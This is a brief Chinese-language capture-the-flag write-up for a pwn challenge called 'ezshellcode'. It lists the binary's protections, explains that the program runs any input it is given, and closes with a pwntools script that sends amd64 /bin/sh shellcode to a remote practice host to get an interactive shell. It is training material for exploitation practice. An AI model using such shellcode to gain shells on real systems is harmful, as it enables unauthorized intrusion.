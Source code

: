 # W1 ezshellcode

## 文件分析

下载`ezshellcode`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

输入一段shellcode就会直接运行了，发一段64位sh的shellcode即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27766)
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
